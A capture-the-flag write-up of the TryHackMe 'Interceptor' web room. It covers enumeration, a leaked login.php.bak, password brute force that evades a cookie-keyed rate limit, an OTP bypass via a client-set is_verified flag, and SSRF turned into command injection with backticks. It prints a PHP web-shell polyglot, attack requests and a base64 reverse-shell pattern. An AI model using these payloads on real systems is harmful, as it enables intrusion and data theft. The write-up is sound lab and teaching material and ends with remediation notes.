## Overview

**Interceptor** is a medium-difficulty web challenge on TryHackMe centered on *MediaHub*, a small media-sharing application. The box is a tour through a realistic web-attack chain: directory enumeration leads to a leaked backup file, the backup discloses a predictable password policy, an authentication-bypass defeats the OTP second factor, and a Server-Side Request Forgery (SSRF) in an "Import Feed" feature is escalated into command injection to read the final flag.

The room's name is a hint: nearly every step relies on **intercepting and tampering with HTTP requests**. The official recommendation is Burp Suite; this walkthrough uses [Caido](https://caido.io/), but every step maps directly onto Burp's Repeater/Intruder workflow.

The attack chain at a glance:



### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `feroxbuster` |
| Asset inspection | `binwalk`, `exiftool`, `pngcheck` |
| Request tampering | Caido (or Burp Suite) — Repeater / Automate (Intruder) |
| Wordlist generation | `bash` / `crunch` |
| Exploitation | Caido Repeater, `curl` |

---

## Enumeration

### Port scan

We begin with a service/version scan with the default script set against the target.

```bash
nmap -sC -sV 10.112.188.108
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 25:9c:8f:2b:45:e0:d0:55:8e:9f:37:5f:84:7b:b6:70 (RSA)
|   256 51:0c:d6:d2:25:e3:44:62:0e:e5:dd:7d:73:4c:36:8c (ECDSA)
|_  256 c4:09:11:1c:bc:8f:c4:19:f4:6a:bd:f9:56:b0:f1:e5 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MediaHub
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Three ports are open:

| Port | Service | Notes |
|------|---------|-------|
| 22   | SSH (OpenSSH 8.2p1) | Standard, no obvious entry point yet |
| 53   | DNS (BIND 9.16.1)   | Open but not the intended path |
| 80   | HTTP (Apache 2.4.41) | **MediaHub** web app — our primary target |

Two details worth noting for later. The `PHPSESSID` cookie is set **without the `HttpOnly` flag**, which is a minor information-disclosure / client-side-risk finding. More importantly, the app is clearly session-based PHP, so any rate-limiting tied to the session can likely be reset by dropping the cookie.

### The web application

Browsing to port 80 presents the MediaHub front page and a `login.php` form.


Intercepting the login submission shows that the form POSTs `email` and `password` fields and receives a JSON response.


```json
{
    "ok": false,
    "error": "Invalid credentials."
}
```

This is a JSON API endpoint, which is a good target both for SQL injection testing and for parameter tampering. I sent the request to the Caido Repeater (Burp: *send to Repeater*) so I could iterate on it. Before diving into manual SQLi, though, it's worth mapping the rest of the application — a leaked file or weaker logic flaw is often faster than blind injection.

> I did test the `email` and `password` fields for SQL injection here — classic `' OR 1=1 -- -` and time-based payloads — and the endpoint consistently returned `Invalid credentials.` with no error leakage or timing difference. The login is not the intended path, so after a quick pass I moved on to enumeration. (We later identify the real entry point, and it isn't SQLi.)
{: .prompt-info }

### Content discovery

```bash
feroxbuster -u http://10.112.188.108/ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt \
  -d 2 --smart
```

```text
301      GET  http://10.112.188.108/uploads => http://10.112.188.108/uploads/
301      GET  http://10.112.188.108/assets => http://10.112.188.108/assets/
301      GET  http://10.112.188.108/javascript => http://10.112.188.108/javascript/
301      GET  http://10.112.188.108/phpmyadmin => http://10.112.188.108/phpmyadmin/
200      GET  http://10.112.188.108/assets/core.js
200      GET  http://10.112.188.108/uploads/avatar_1_79703589010e3b8f.png
...
[####################] found:19  errors:4
```

(Output trimmed to the interesting hits.)

The scan surfaces several useful paths:

- **`/uploads/`** — directory listing enabled; contains an uploaded avatar.
- **`/assets/`** — directory listing enabled; static front-end files only.
- **`/javascript/`** — `403 Forbidden`, but worth revisiting.
- **`/phpmyadmin/`** — a potential CVE target if the version is old, but lower priority.

### Investigating `/uploads`


A single avatar image is present. CTF avatars frequently hide data via steganography, so it's worth a quick check before moving on.


```bash
binwalk avatar_1_79703589010e3b8f.png
```

```text
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 427 x 385, 8-bit/color RGBA, non-interlaced
62            0x3E            Zlib compressed data, default compression
```

Nothing unusual — the `Zlib compressed data` entry is simply the `IDAT` pixel data that every PNG contains, not an embedded archive.

```bash
exiftool avatar_1_79703589010e3b8f.png
```

```text
File Type      : PNG
Image Width    : 427
Image Height   : 385
Bit Depth      : 8
Color Type     : RGB with Alpha
Compression    : Deflate/Inflate
...
```

The EXIF metadata is entirely ordinary — no comment fields, no appended data.

```bash
pngcheck -v avatar_1_79703589010e3b8f.png
```

```text
File: avatar_1_79703589010e3b8f.png (265240 bytes)
chunk IHDR at offset 0x0000c, length 13
427 x 385 image, 32-bit RGB+alpha, non-interlaced
chunk pHYs at offset 0x00025, length 9: 3780x3780 pixels/meter (96 dpi)
chunk IDAT ... (multiple, all valid)
chunk IEND at offset 0x40c10, length 0
No errors detected in avatar_1_79703589010e3b8f.png (36 chunks, 59.7% compression).
```

The PNG chunk structure is clean and contains nothing but standard `IHDR`/`pHYs`/`IDAT`/`IEND` chunks. **The image is a red herring** — we mark it cleared so we don't waste time on it again.

### `/assets` and `/javascript`



`/assets` holds only front-end resources — `core.js` is a typewriter-effect library, nothing exploitable.



`/javascript` returns `403`. `/phpmyadmin` was parked as a possible CVE vector, but it's a dead end for this box: the login is not weakly credentialed, the version is current enough to lack a trivial public exploit, and — as we'll see — the intended path never requires direct database access. I note it and move on rather than rabbit-holing.

### Deeper enumeration

The first scan only went two levels deep and used no extensions. Let's broaden the scope, add common file extensions, and exclude the paths we've already cleared to keep the noise down. `phpmyadmin` is excluded specifically because recursing into it generates a huge amount of irrelevant traffic.

```bash
feroxbuster -u http://10.112.188.108 \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt \
  -x php,js,txt,bak,zip --smart \
  --dont-scan 'http://10.112.188.108/(uploads|phpmyadmin|assets)/.*'
```

```text
302  GET  http://10.112.188.108/logout.php   => index.php
302  GET  http://10.112.188.108/search.php   => login.php
302  GET  http://10.112.188.108/dashboard.php => login.php
302  GET  http://10.112.188.108/otp.php      => login.php
200  GET  http://10.112.188.108/api_login.php
200  GET  http://10.112.188.108/login.php
200  GET  http://10.112.188.108/login.php.bak     <-- 2038 bytes, non-empty
200  GET  http://10.112.188.108/config.php        <-- 0 bytes (PHP executed, body empty)
200  GET  http://10.112.188.108/footer.php
[####################] found:15  errors:9
```

This run is far more productive:

- **`login.php.bak`** — a non-empty backup of the login page served as **plaintext** instead of being executed. Backup files are a classic source disclosure.
- **`otp.php`** — redirects to `login.php` for unauthenticated users, telling us the app enforces a **two-factor (OTP) step**.
- **`config.php`** — `0` bytes because PHP executed it and produced no output. I tried the usual tricks to disclose its source (requesting `config.php~`, `config.php.bak`, `config.php.save`, `.config.php.swp`) but none of them existed or were reachable. The file holds the DB credentials we'd love to have, but there's no path to read it — noted and abandoned.
- **`dashboard.php`**, **`search.php`** — both redirect to login, confirming they are post-authentication pages.

---

## Initial Access

### Source disclosure via `login.php.bak`

Because `.bak` is not mapped to the PHP handler, Apache serves it as raw text — leaking the page's source, including a developer comment that was never meant for production.

```php
<?php
include "header.php";

/*
|--------------------------------------------------------------------------
| Developer Note (temporary)
|--------------------------------------------------------------------------
| Admin test account for staging environment
| Email: admin@mediahub.thm
|
| Password policy reminder:
| Admin password follows company format:
| MediaHub + any year
|
| TODO: remove before production deployment
*/
?>
<!-- ... HTML login form and fetch() submission logic ... -->
```

This is the pivotal finding. The note discloses:

- A valid admin username: **`admin@mediahub.thm`**
- A **predictable password format**: the literal string `MediaHub` followed by a year.

A password that follows a known, low-entropy pattern is trivially brute-forceable. The full source also confirms the front-end posts to `api_login.php` and parses a JSON response — exactly the endpoint we already have in Repeater.

### Building a targeted wordlist

The format `MediaHub` + year gives only a few hundred realistic candidates. You could use `crunch` for a digit pattern:

```bash
# %  is a digit placeholder in crunch
crunch 4 4 0123456789 -t MediaHub%%%% -o passlist.txt
```

…but that generates all 10,000 four-digit combinations (`MediaHub0000`–`MediaHub9999`), most of which are not plausible years. A tighter list is faster:

```bash
for y in {1900..2026}; do echo "MediaHub$y"; done > passlist.txt
```

```bash
head passlist.txt
```

```text
MediaHub1900
MediaHub1901
MediaHub1902
...
```

127 candidates instead of 10,000 — a much smaller search space to feed into Caido's **Automate** tab (Burp: **Intruder**).

### Defeating the rate limit

Running the bruteforce immediately trips a rate limiter:

```json
{
    "ok": false,
    "error": "Too many login attempts."
}
```

The limiter is keyed to the **session cookie**, not the source IP — and we already noticed during recon that the app is session-based. Stripping the `PHPSESSID` header from each request makes the server treat every attempt as a brand-new, un-throttled visitor. The attack request, with the cookie line removed:

```http
POST /api_login.php HTTP/1.1
Host: 10.112.188.108
Content-Type: multipart/form-data; boundary=----caido
Content-Length: ...

------caido
Content-Disposition: form-data; name="email"

admin@mediahub.thm
------caido
Content-Disposition: form-data; name="password"

§MediaHub2020§
------caido--
```

The `§...§` marks the injection point for the password wordlist; the `Cookie: PHPSESSID=...` header is deleted from the request template so every attempt is throttle-free.



With the cookie removed and results filtered by response length, the correct password stands out by its different content length.



The successful login returns:

```json
{
    "ok": true,
    "message": "Login success. OTP required.",
    "redirect": "otp.php"
}
```

Credentials are valid, but we're now gated behind the second factor at `otp.php`.

> If the browser shows *"Too many login attempts"* when you navigate manually, clear the `PHPSESSID` cookie in DevTools and reload.
{: .prompt-tip }

### Bypassing the OTP

The OTP page asks for a 6-digit code.



Intercepting a submission shows the verification response:



```json
{
    "ok": false,
    "error": "Invalid OTP. Try again.",
    "is_verified": false
}
```

A 6-digit code is a million-entry brute force — and rate-limited — so it pays to **analyze before attacking**. The key observation is in the response itself: the server hands us a field named `is_verified`. A well-designed backend keeps verification state entirely server-side and never echoes its internal flag name to the client. Seeing both `ok` *and* `is_verified` — two booleans that always agree — strongly suggests the server is round-tripping its trust decision through a value the client can influence. In effect, **the server leaked the name of its own internal variable.**

So instead of brute-forcing the code, I tested whether that variable is attacker-controllable. First I confirmed the OTP **field name is not validated** — the server accepts the submission regardless of what the parameter is called. Then I replaced the `otp` parameter with one named `is_verified` and set it truthy:

```http
POST /otp.php HTTP/1.1
Host: 10.112.188.108
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3nj7eajukulr26g8nfeogvppaf
Content-Length: 13

is_verified=1
```

```json
{"ok":true,"message":"OTP verified. Redirecting..."}
```

This is a textbook **mass-assignment / trusted-client-parameter** flaw: the verification check is effectively `if ($_POST['is_verified']) { ... }`, so the attacker supplies the very variable that gates access. No code is ever guessed. Navigating to `dashboard.php` now drops us into the authenticated application.



> **Flag 1 — `THM{...}`** is shown on the dashboard.
{: .prompt-info }

---

## Exploitation

The dashboard exposes three new attack surfaces:

1. **Avatar upload** — a file-upload form (potential unrestricted upload → RCE).
2. **Import Feed** — fetches a remote URL (potential SSRF).
3. **Search Media** (`search.php`) — a query field (potential SQL injection).

> I revisited **Search Media** for SQL injection now that I was authenticated, since it was the most promising SQLi surface flagged during recon. The query parameter handled quotes, `UNION`, and boolean/time-based payloads without any error, content, or timing difference — it's parameterized. With both SQLi surfaces (login and search) ruled out, the intended path is the Import Feed feature below.
{: .prompt-info }

### File upload (hardened — dead end)

Re-uploading the known-good PNG works and redirects with a success marker:

```http
HTTP/1.1 302 Found
Location: dashboard.php?msg=Profile+picture+updated.
```

The file lands in `/uploads/`, confirming an attacker-reachable destination.



I then probed the standard upload bypasses (full reference: the [HackTricks file-upload guide](https://hacktricks.wiki/en/pentesting-web/file-upload/index.html)):

| Technique | Request change | Server response |
|-----------|----------------|-----------------|
| Extension swap | `filename="image.php"` | `Only JPG, JPEG, PNG, GIF are allowed.` |
| `Content-Type` spoof | `Content-Type: image/png` on a `.php` | `Only JPG, JPEG, PNG, GIF are allowed.` |
| Magic-byte prepend | PNG header + PHP body | `Invalid MIME type.` |
| Polyglot | `GIF89a;` + `<?php system($_GET['cmd']); ?>` | `Invalid MIME type.` |

The polyglot attempt:

```php
GIF89a;
<?php system($_GET['cmd']); ?>
```

```text
dashboard.php?msg=Invalid+MIME+type.
```

The developer layered **extension allow-listing, `Content-Type` validation, and real MIME/content inspection** (likely `finfo`/`getimagesize`). The upload is properly hardened, so I deprioritized it in favor of the Import Feed feature.

### SSRF in Import Feed → command injection

The Import Feed form takes a URL and the server fetches it. The obvious first probe, `http://127.0.0.1`, is blocked:



The block is a naive string filter on the loopback address, which is easy to evade. IPv4 has several alternate representations (see the [HackTricks SSRF guide](https://hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html)). Using the **short-form loopback `127.1`** sidesteps the filter:

> When an IPv4 address has fewer than four dotted parts, the final part is interpreted as the remaining bytes — so `127.1` expands to `127.0.0.1`. Other equivalents include `127.0.1`, decimal `2130706433`, and `0177.0.0.1` (octal).
{: .prompt-tip }

Once the filter is bypassed, the response gives away something far more dangerous than plain SSRF: the page echoes back `curl`'s own progress meter and error text. That tells us the application isn't using a PHP HTTP client (`file_get_contents`, cURL bindings) — it's shelling out to the `curl` **binary** and reflecting its stdout/stderr. Whenever user input reaches a shell, the question shifts from "can I reach internal hosts?" to "can I break out of the intended command?"

#### Why backticks work but `;`, `&`, `|` don't

Probing the usual command separators tells us exactly how our input is being placed into the command line:

```bash
http://127.0.1; whoami      # ';' filtered  -> no command runs
http://127.0.1 `whoami`     # backticks succeed
```

The fact that `;`, `&`, and `|` are filtered but a **space followed by backticks** executes is the tell. It means the URL is not concatenated raw into a `system()` string; instead it's wrapped — roughly `curl "$url"` — and the deny-list strips the obvious chaining metacharacters. Backticks (and `$()`) are **command substitution**: the shell evaluates them *before* `curl` ever runs, regardless of the surrounding quotes, and substitutes the output in place. So `` `whoami` `` is executed by the shell, its output (`www-data`) is spliced into the argument, and `curl` then tries to resolve that output as a hostname:

```text
curl: (6) Could not resolve host: www-data
```

That "failure" is our exfiltration channel — `curl` obligingly prints whatever our injected command returned. This is a constrained primitive (the output must be a single whitespace-free token to survive as a "hostname"), but it's enough to read a flag.

#### Reading the flag

A reverse shell and full privilege escalation would be the usual next steps, but the objective is just the user flag at `/var/www/user.txt`, which `www-data` can already read:

```bash
http://127.0.1 `cat /var/www/user.txt`
```

`curl` again fails to "resolve" the flag string and prints it in the error, disclosing the file contents.



> **Flag 2 — `THM{...}`** is read from `/var/www/user.txt`.
{: .prompt-info }

#### Where this leads next

We stop at the flag, but the foothold is real RCE as `www-data`, so the natural continuation would be:

- Upgrade to a stable reverse shell — note the single-token limitation means base64-encoding a payload (`` `echo <b64>|base64 -d|bash` `` style, padded to avoid spaces) is the cleanest way to break out of the hostname constraint.
- Read `config.php` from the foothold — the DB credentials we couldn't disclose earlier are now trivially `cat`-able, opening up `phpmyadmin` and the database.
- Enumerate for privilege escalation — `sudo -l`, SUID binaries, cron jobs, and writable service files to move from `www-data` to `root`.

---

## Conclusion

Interceptor chains five common-but-realistic web weaknesses into a single path:

1. **Sensitive backup exposure** — `login.php.bak` served as source, leaking an admin account and a predictable password policy.
2. **Weak password policy** — `MediaHub` + year collapses the keyspace to ~100 guesses.
3. **Session-bound rate limiting** — trivially reset by dropping the `PHPSESSID` cookie.
4. **Broken authentication (OTP bypass)** — the server trusts a client-supplied `is_verified` parameter, a mass-assignment-style flaw.
5. **SSRF → command injection** — loopback filtering bypassed with `127.1`, then backtick injection into a `curl` call yields RCE as `www-data`.

The recurring theme is **trusting the client and validating with deny-lists**: the OTP flag, the SSRF host filter, and the command separators are all blocked by enumerating "bad" values rather than allowing only known-good ones — and each is bypassable. By contrast, the avatar upload and the SQL queries use allow-listing / parameterization and held up under testing.

### Remediation notes

- Never deploy `.bak`, `.old`, or editor swap files to web roots; block them at the server level and keep them out of source control on production.
- Enforce strong, non-pattern-based password policies and lock accounts after repeated failures.
- Rate-limit on a server-trusted identifier (account + source IP), never solely on a client-controlled session cookie.
- Derive verification state **server-side** from session storage; never read trust decisions from request parameters.
- For outbound-fetch features, validate the URL against an allow-list of hosts, resolve and re-check the destination IP, and **never** pass user input to a shell — use a library HTTP client with no shell interpolation.

*Happy hacking*
